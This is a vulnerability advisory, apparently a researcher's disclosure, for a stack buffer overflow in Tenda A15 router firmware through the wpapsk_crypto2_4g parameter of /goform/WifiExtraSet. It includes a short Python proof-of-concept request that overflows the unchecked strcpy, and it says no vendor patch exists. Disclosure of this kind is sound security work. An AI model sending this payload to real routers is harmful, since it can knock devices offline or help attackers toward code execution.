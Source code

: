 ## Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "wpapsk_crypto2_4g" parameter at /goform/WifiExtraSet.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the fromSetWirelessRepeat function, get the wpapsk_crypto2_4g parameter via websGetVar and pass it to the fifth parameter of set_repeat24

![1703732437002](image/WifExtraSet.zh-cn/1703732437002.png)

In the set_repeat24 function, the wpapsk_crypto variable is used in the strcpy function without any length checksum, which could lead to an attacker exploiting this buffer overflow to perform DOS attacks and RCE attacks.

![1703732509167](image/WifExtraSet.zh-cn/1703732509167.png)

## POC

```python
import requests

ip = '192.168.159.128'
url = f'http://{ip}/goform/WifiExtraSet'

payload = {
  
    'configured5g': 'true',
    'originSsid2_4g': '1234',
    'encode2_4g': '1234',
    'security2_4g': 'wpapsk',
    'wpapsk_type2_4g': 'wpa2',
    'wpapsk_crypto2_4g': 'a' * 0x100,
    'wpapsk_key2_4g': '1234567890'
}

res = requests.post(url=url, data=payload)

print(res)
```

## Trigger details

See video content
[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1704443583/video_to_markdown/images/youtube---j6ZD_bxYnw-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/-j6ZD_bxYnw "")

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html

## Acknowledgment

The vulnerability belongs to Chenjun Ma from Wuhan University.
